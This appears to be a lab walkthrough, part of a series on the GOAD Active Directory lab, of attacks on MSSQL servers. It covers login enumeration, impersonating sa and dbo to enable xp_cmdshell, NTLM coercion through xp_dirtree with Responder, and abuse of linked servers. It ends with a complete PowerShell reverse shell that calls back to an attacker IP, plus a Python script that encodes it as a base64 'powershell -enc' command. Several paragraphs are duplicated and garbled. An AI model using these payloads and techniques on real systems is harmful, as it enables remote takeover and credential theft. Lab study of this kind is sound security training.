- GOAD - part 6 - MSSQL - Done
sudo nmap -Pn -p 1433 -sV -sC 10.4.10.10-23


It’s possible to see above that our NMAP scan output shows us 2 hosts configured with MSSQL service, Braavos.essos.local and castleblack.north.sevenkingdoms.local are running as MSSQL server. since we already know that we do have 2 hosts running MSSQL service, we can now start by enumerating the service unauthenticated and also authenticated using NetExec. ## NetExec This project was initially created in 2015 by @byt3bl33d3r, known as CrackMapExec. In 2019 @mpgn_x64 started maintaining the project for the next 4 years, adding a lot of great tools and features. In September 2023 he retired from maintaining the project. So from now on I’ll be using Netexec instead of CrackMapExec. ### Enumerating MSSQL unauthenticated We already know that we do have 2 servers running as MSSQL server so we can try to enumerate it using NetExec unauthenticated.netexec mssql 10.4.10.22-23
 ### Enumerating MSSQL authenticated
Assuming that we do have a valid user on the domain, we can also use NetExec to enumerate the service using a valid user.
### Enumerating MSSQL authenticated
Assuming that we do have a valid user on the domain, we can also use NetExec to enumerate the service using a valid user.
netexec mssql 10.4.10.22 -u 'samwell.tarly' -p 'Heartsbane' -d 'north.sevenkingdoms.local’
 The output above shows us a
The output above shows us a [+] signal, it means that this user has access to MSSQL database.
Since we do have a valid user for this MSSQL database, we can use mssqlclient.py from impacket to login into MSSQL service.
mssqlclient.py -windows-auth 'north.sevenkingdoms.local/samwell.tarly:Heartsbane@castelblack.north.sevenkingdoms.local'

We have accessed the MSSQL server. that’s great. ### Enumerating MSSQL Once we are inside MSSQL server using mssqlclient.py from impacket, we do have lots of options to start our MSSQL enumeration. Let’s start by enumerating login users.enum_logins
The just issued command will make the following request to MSSQL database:
``bash
select r.name,r.type_desc,r.is_disabled, sl.sysadmin, sl.securityadmin,
sl.serveradmin, sl.setupadmin, sl.processadmin, sl.diskadmin, sl.dbcreator, sl.bulkadmin
from master.sys.server_principals r
left join master.sys.syslogins sl on sl.sid = r.sid
where r.type in ('S','E','X','U','G')
`

This is the output we get from the database query. This output shows that we are simply basic viewer users, meaning we don’t have high privilege role in this database.
# Impersonate - execute as login
Let’s see if we can enumerate some valid impersonation here.
enum_impersonate
the command issued above will make the following queries into the MSSQL database listing all login with impersonation permission:
`bash
SELECT 'LOGIN' as 'execute as','' AS 'database',
pe.permission_name, pe.state_desc,pr.name AS 'grantee', pr2.name AS 'grantor'
FROM sys.server_permissions pe
JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_Id
JOIN sys.server_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'
`
The same request will also issue the request on each database in this MSSQL server:
`bash
use ;
SELECT 'USER' as 'execute as', DB_NAME() AS 'database',
pe.permission_name,pe.state_desc, pr.name AS 'grantee', pr2.name AS 'grantor'
FROM sys.database_permissions pe
JOIN sys.database_principals pr ON pe.grantee_principal_id = pr.principal_Id
JOIN sys.database_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'
`
> Login and User, what is the difference ?
>
> - A “Login” grants the principal entry into the SERVER
> - A “User” grants a login entry into a single DATABASE
“SQL Login is for Authentication and SQL Server User is for Authorization. Authentication can decide if we have permissions to access the server or not and Authorization decides what are different operations we can do in a database. Login is created at the SQL Server instance level and User is created at the SQL Server database level. We can have multiple users from a different database connected to a single login to a server.”

As we can see from the output, our user Samwell.Tarly can make queries to this database as user sa.
The sa account is the built-in super user account for MSSQL and has full administrative privileges.
 So
So Samwell.Tarly user can impersonate user sa. Let’s impersonate sa user and execute OS commands with xp_cmdshell.
exec_as_login sa = It’s equivalent to execute as login='sa';query.
enable_xp_cmdshell = It’s equivalent to exec master.dbo.sp_configure 'show advanced options',1;RECONFIGURE;exec master.dbo.sp_configure 'xp_cmdshell', 1;RECONFIGURE;query.
xp_cmdshell whoami = I’ts equivalent to exec master..xp_cmdshell 'whoami' query.
 As stated on the screenshot above, as can see that we were able to impersonate the high privileged user
As stated on the screenshot above, as can see that we were able to impersonate the high privileged user sa and we can now execute OS commands as sa.
Now let’s do the enumeration as sa user.
We can see below that we can execute all kinds of OS commands and here we do have an example. we can see everything in the dir C:\.
EXEC xp_cmdshell "dir C:\"
xp_cmdshell dir C:\
 ### Let’s Continue our MSSQL enumeration
### Let’s Continue our MSSQL enumeration
enum_logins
Now it’s possible to see that we can now see away more users since we are requesting with a highly privileged user.
 It’s possible to see from the screenshot above several users, and we can see as well that user
It’s possible to see from the screenshot above several users, and we can see as well that user jon.snow is SysAdmin since we can see its sysadmin status to 1same as sa user.
Let’s try to impersonate other users as well, let’s see if there’s another impersonation privilege here.
enum_impersonate

- As sysadmin user
sa we can see all the information in the database and so the others users with impersonation privileges.
Another way to get in could be to access as brandon.stark and do execute as login on user jon.snow.
# Impersonate - Execute as user
Now this time let’s connect to the DB as arya.stark.
mssqlclient.py -windows-auth 'north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local'

Enumerating databases.
select name from master.dbo.sysdatabases;
 Let’s use master database.
Let’s use master database.
use master;
Now let’s enumerate and see if the user ayra.stark can impersonate other user.
enum_impersonate

Our enumeration shows us that arya.stark can impersonate dbo in master and msdb database.
We use master db and impersonate user dbo but we can’t execute OS Commands. Errors are shown on the screenshot below.

Now let’s change the database to msdb.
use msdb;
The difference between the two databases is that msdb got the trustworthy property set, trustworthy property is set by default on msdb database.
enum_db
 So putting things together after enumeration.
based on the
So putting things together after enumeration.
based on the enum_impersonate command we can see that we user ayra.stark can impersonate dbo on msdb database and since trustworthy set is enabled by default on msdb database, we can take advantage by abusing this and get OS command execution
use msdb
exec_as_user dbo
enable_xp_cmdshell
xp_cmdshell whoami

xp_cmdshell dir C:\
EXEC xp_cmdshell "dir C:\"
 # MSSQL NTLM Stealing
MSSQL NTLM stealing is an attack where an MSSQL server is tricked into authenticating to an attacker-controlled SMB or web server, capturing NTLM hashes in the process. This works by abusing MSSQL commands like
# MSSQL NTLM Stealing
MSSQL NTLM stealing is an attack where an MSSQL server is tricked into authenticating to an attacker-controlled SMB or web server, capturing NTLM hashes in the process. This works by abusing MSSQL commands like xp_dirtree or xp_fileexist, which trigger outbound connections. The attacker sets up a malicious SMB server (e.g., using Responder) and injects commands into the server to force the connection. Once the NTLM hash is captured, it can be cracked or relayed to gain further access.
To defend against this, disable unnecessary features like xp_cmdshell, restrict outbound connections, enforce strong passwords, and monitor for suspicious activity.
MSSQL can also be use to coerce an NTLM authentication from the MSSQL server. The incoming connection will be from the user who run the MSSQL server.
In our case if we tale any user like hodor for example we can get an NTLM authentication using Responder.
show_query
exec master.sys.xp_dirtree '\\10.4.10.1\demontlm',1,1

sudo responder -I vmnet2 -dwP -vvv
 This will work also with ntlmrelayx (like with a server running as administrator and with the same password on other servers)
# Trusted Links
SQL can also be abused with the usage of MSSQL trusted links.
> Note that trusted link is also a forest to forest technique
>
This will work also with ntlmrelayx (like with a server running as administrator and with the same password on other servers)
# Trusted Links
SQL can also be abused with the usage of MSSQL trusted links.
> Note that trusted link is also a forest to forest technique
>
enum_links
This command will make the following requests to the database:
EXEC sp_linkedservers
EXEC sp_helplinkedsrvlogin
 As we can see above a linked server exist with the name BRAAVOS and a mapping exist with the user
As we can see above a linked server exist with the name BRAAVOS and a mapping exist with the user jon.snow as Local Login and sa as Remote Login on braavos. This way we use this trusted link to get command injection on BRAAVOS server.
use_link BRAAVOS = It’s equivalent to EXEC ('select system_user as "username"') AT BRAAVOS query.
enable_xp_cmdshell = It’s equivalent to EXEC ('exec master.dbo.sp_configure ''show advanced options'',1;RECONFIGURE;exec master.dbo.sp_configure ''xp_cmdshell'', 1;RECONFIGURE;') AT BRAAVOS query.
xp_cmdshell whoami = It’s equivalent to EXEC ('exec master..xp_cmdshell ''whoami''') AT BRAAVOS query.

We got a command injection on braavos.essos.local as essos\sql_svc. Since we got Command Injection on BRAAVOS MSSQL server via Trusted Link, We can also Coerce and Relay to be able to get NTLM hash of the user running this MSSQL Server.
# Coerce and relay
MSSQL can also be use to coerce an NTLM authentication from the MSSQL server.
The incoming connection will be from the user who run the MSSQL server.
In our case if we tale any user like hodor for example we can get an NTLM authentication using Responder.
show_query
exec master.sys.xp_dirtree '\\10.4.10.1\demontlm',1,1

sudo responder -I vmnet2 -dwP -vvv
 # Command execution to shell
We got command execution on castelblack and also on braavos. But now we want a shell to interact with the server.
To get a shell we can use a basic Powershell webshell:
# Command execution to shell
We got command execution on castelblack and also on braavos. But now we want a shell to interact with the server.
To get a shell we can use a basic Powershell webshell:
`powershell
$c = New-Object System.Net.Sockets.TCPClient('10.4.10.1',4444);
$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
$sb = (iex $d 2>&1 | Out-String );
$sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
$s.Write($sb,0,$sb.Length);
$s.Flush()
};
$c.Close()
`
Let’s convert this powershell command to base64 in utf-16 for powershell
`python
#!/usr/bin/env python
import base64
import sys
if len(sys.argv) < 3:
print('usage : %s ip port' % sys.argv[0])
sys.exit(0)
payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
$sb = (iex $d 2>&1 | Out-String );
$sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
$s.Write($sb,0,$sb.Length);
$s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])
byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())
``
Let’s convert how powershell payload to base64 using local IP and local port listening for the connection.
 After that we just have to execute this command into our MSSQL server since we have abused trusted links.
Listening on NetCat in port 8080 as stated when converting the powershell payload to base64, We are able to get reverse shell from Castelback MSSQL and from BRAAVOS MSSQL server as well.
After that we just have to execute this command into our MSSQL server since we have abused trusted links.
Listening on NetCat in port 8080 as stated when converting the powershell payload to base64, We are able to get reverse shell from Castelback MSSQL and from BRAAVOS MSSQL server as well.
